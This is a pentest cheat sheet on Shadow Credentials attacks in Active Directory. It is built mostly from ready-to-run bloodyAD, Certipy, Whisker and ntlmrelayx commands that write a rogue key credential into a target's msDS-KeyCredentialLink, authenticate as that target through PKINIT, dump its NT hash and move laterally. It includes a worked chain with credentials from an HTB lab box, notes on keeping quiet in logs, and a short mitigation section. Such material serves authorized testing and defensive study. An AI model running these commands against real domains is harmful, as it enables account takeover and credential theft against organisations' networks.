

# Shadow Credentials — msDS-KeyCredentialLink Abuse

## Quick Reference

| Field | Value |
|-------|-------|
| **Category** | ACL-based Escalation / Lateral Movement (Key Trust) |
| **Difficulty** | Low–Medium |
| **Pre-requisites** | `GenericWrite` / `GenericAll` / `WriteProperty` over the target's `msDS-KeyCredentialLink`; a DC that supports PKINIT (KDC cert present — i.e. ADCS in the forest) |
| **Tools** | Certipy (`shadow`), Whisker, pyWhisker, ntlmrelayx, BloodyAD |
| **OPSEC Noise** | Low — one attribute write, normal PKINIT auth |
| **One-liner** | Write a Key Credential (your public key) into a target's `msDS-KeyCredentialLink`, then PKINIT-authenticate as that target with the matching private key — no password reset, no ADCS template needed. |

***

## What Is Shadow Credentials?

Windows Hello for Business / Key Trust lets an account authenticate with a public/private key pair stored in the AD attribute **`msDS-KeyCredentialLink`**. If you have **write** over that attribute on a target user or computer (a common BloodHound ACL edge: `GenericWrite`, `GenericAll`, `AllowedToAct`, or `WriteProperty`), you can append **your own** Key Credential. You then authenticate as the target via **PKINIT** and, with UnPAC-the-hash, recover their NT hash.

It is the cleanest way to weaponise a write-ACL edge: unlike a password reset it is reversible and quiet, and unlike an ADCS ESC it needs no vulnerable template — only that PKINIT works in the forest.



***

## Step 0 — Confirm the Edge

```bash
# BloodHound: look for GenericWrite/GenericAll/WriteProperty -> target
# Certipy/Bloodyad can also read the attribute
bloodyAD -u me -p pass -d domain.htb --host $TARGET get object 'targetuser' --attr msDS-KeyCredentialLink
```

***

## Step 1 (Option A) — bloodyAD only, no Certipy

> [!tip] bloodyAD does the entire attack in one command
> `add shadowCredentials` writes the Key Credential, performs PKINIT, and prints the target's **NT hash** directly. It also saves a TGT ccache (or a `.pfx` if PKINIT fails) via `--path`. This fully replaces `certipy shadow auto` — you never need Certipy for Shadow Credentials.

```bash
bloodyAD --host dc01.domain.htb -d domain.htb -u me -p 'Passw0rd!' add shadowCredentials targetuser
```

```
[+] KeyCredential generated with DeviceID ... added to targetuser
[+] NT hash via PKINIT: a9285c625af80519ad784729655ff325
```

```bash
# save the recovered TGT/pfx somewhere specific
bloodyAD --host dc01.domain.htb -d domain.htb -u me -p 'Passw0rd!' add shadowCredentials targetuser --path /tmp/targetuser

# cleanup — remove the planted Key Credential
bloodyAD --host dc01.domain.htb -d domain.htb -u me -p 'Passw0rd!' remove shadowCredentials targetuser
```

> [!warning] DC FQDN + clock skew
> PKINIT is Kerberos, so use the DC **name** (`--host dc01.domain.htb`, not the IP) and wrap with `faketime -f '+Xh'` if the clock is skewed (see faketime-cheatsheet).

### Worked chain — GenericAll on a group → add self → shadow-cred members (HTB Fluffy)

```bash
# 1. GenericAll over 'Service Accounts' -> add yourself (grants GenericWrite over members)
bloodyAD --host dc01.fluffy.htb -d fluffy.htb -u p.agila -p 'prometheusx-303' add groupMember 'Service Accounts' p.agila

# 2. Shadow-cred each service account -> NT hash, no Certipy
bloodyAD --host dc01.fluffy.htb -d fluffy.htb -u p.agila -p 'prometheusx-303' add shadowCredentials winrm_svc
bloodyAD --host dc01.fluffy.htb -d fluffy.htb -u p.agila -p 'prometheusx-303' add shadowCredentials ca_svc
```

***

## Step 1 (Option B) — Certipy (auto: add, auth, restore)

```bash
certipy-ad shadow auto \
  -u 'me@domain.htb' -p 'Passw0rd!' \
  -dc-ip $TARGET \
  -account 'targetuser'
```

```
[*] Adding Key Credential to 'targetuser'
[*] Authenticating as 'targetuser' via PKINIT
[*] Got TGT ...
[*] Got hash for 'targetuser@domain.htb': aad3b...:<NTHASH>
[*] Restoring the old Key Credential attribute
```

> [!tip] `auto` self-cleans
> `shadow auto` adds the key, authenticates, dumps the hash, then restores the original attribute value so you leave no lingering Key Credential.

***

## Step 2 — Manual (Certipy sub-steps / Whisker)

```bash
# Certipy granular
certipy-ad shadow add    -u me -p pass -account targetuser -dc-ip $TARGET   # returns a saved .pfx + device-id
certipy-ad shadow list   -u me -p pass -account targetuser -dc-ip $TARGET
certipy-ad shadow remove -u me -p pass -account targetuser -device-id <GUID> -dc-ip $TARGET

# Windows — Whisker
Whisker.exe add /target:targetuser
# outputs a Rubeus asktgt command with the /certificate blob -> UnPAC the hash
```

```bash
# During NTLM relay (relay a coerced auth straight into a Shadow Cred write)
ntlmrelayx.py -t ldap://DC01 --shadow-credentials --shadow-target 'targetuser'
```

***

## Step 3 — Use It

```bash
export KRB5CCNAME=targetuser.ccache
wmiexec.py -k -no-pass DC01.domain.htb
# or Pass-the-Hash with the recovered NT hash
```

> [!warning] Clock skew
> PKINIT is Kerberos. On `KRB_AP_ERR_SKEW`, wrap Certipy with faketime (see faketime-cheatsheet).

***

## When It Fails

| Symptom | Cause |
| :-- | :-- |
| `KDC has no support for PADATA type (PKINIT)` | No KDC/enrolment cert in the forest — Key Trust unavailable. Fall back to RBCD or password reset on the edge. |
| Access denied writing attribute | You don't actually have write over `msDS-KeyCredentialLink` (edge misread). |
| Auth works, no hash | UnPAC step needs the U2U; Certipy does it automatically, Rubeus needs `/getcredentials`. |

***

## OPSEC Considerations

| Action | Log | Noise |
| :-- | :-- | :-- |
| Write `msDS-KeyCredentialLink` | Event 5136 (attribute modify) | 🟡 Medium (if audited) |
| PKINIT auth | Event 4768 with cert info | 🟢 Low |
| Restore attribute | Event 5136 | 🟢 Low |

***

## Mitigation

- Audit and restrict write access to `msDS-KeyCredentialLink`; remove unnecessary `GenericWrite`/`GenericAll` edges (BloodHound review).
- Enable SACL auditing (5136) on the attribute and alert on writes by non-AAD-Connect principals.
- Where Windows Hello for Business Key Trust is unused, monitor for **any** Key Credential additions.

***

## See Also

- _ADCS Attack Methodology Guide · THEFT5 — NTLM Theft via PKINIT (UnPAC-the-Hash) · faketime-cheatsheet · bloodhound-ce-python-cheatsheet
- Sources: Elad Shamir *Shadow Credentials*; [Whisker](https://github.com/eladshamir/Whisker); [pyWhisker](https://github.com/ShutdownRepo/pywhisker); [Certipy Wiki](https://github.com/ly4k/Certipy/wiki); [The Hacker Recipes — Shadow Credentials](https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials)
